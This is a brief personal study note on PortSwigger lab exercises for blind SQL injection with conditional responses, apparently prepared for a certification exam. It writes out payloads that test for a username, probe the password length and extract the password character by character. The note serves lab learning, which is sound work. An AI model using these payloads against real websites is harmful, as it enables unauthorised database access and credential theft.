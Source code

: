 # PortSwigger Labs -Notes
Am i getting ready for BSCP? I don't know



## SQL injection (blind) - Conditional Responses
    Take a look and see wheather the page displays certain messages. Page's size is handful.

    * You might use it to determine if the username existing within the table
      This queries evaluates if the given username exists inside the table
      and (select 'a' from users where username = 'foo')='a
    
    * To get the password length. 
      and (select 'a' from users where username = 'foo' and length(password)>1)='a

    * To get the password by issuing one char at a time while looping through the password length
      The incremental must be where the first 1 is at.
      and (select substring(password,1,1) from users where username = 'foo')=§
    
